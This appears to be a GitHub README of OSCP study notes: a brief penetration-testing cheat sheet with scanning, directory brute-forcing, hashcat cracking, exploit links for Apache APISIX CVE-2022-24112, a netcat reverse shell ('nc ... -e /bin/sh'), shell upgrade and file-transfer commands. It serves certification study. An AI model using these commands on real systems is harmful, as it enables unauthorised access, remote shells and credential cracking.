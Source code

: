 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## Nikto
nikto -h 127.0.0.1
## SMB
## Gobuster
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -t 5 -u http://target.url -q
## Linpeas
## Winpeas
# Payloads
## Msfvenom
# Brute Force
# Cracking
## Hashcat (https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat -a 0 -m 1600 -w 2 --show hash.txt /usr/share/wordlists/rockyou.txt  
# Exploits
## Apache Apisix 2.8
(CVE-2022-24112)  
{"error_msg":"404 Route Not Found"}  
https://github.com/twseptian/cve-2022-24112
## Ladon Framework
(NO CVE)  
WSGIServer 0.1 (Python 2.7.16)  
https://www.exploit-db.com/exploits/43113  
https://www.youtube.com/watch?v=3XgGjEG0lLw  
# Shell
## Netcat (listener)
nc -lvnp 8080
## Netcat (sender)
nc 127.0.0.1 8080 -e /bin/sh
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
# File Hosting
## Python
python3 -m http.server 8080
# File Transfer
## Curl (upload)
curl -T file.php -u 'username:password' http://target.url
## Wget (download)
wget http://127.0.0.1/file.php
# Privilege Escalation
## Crontab
cat /etc/crontab

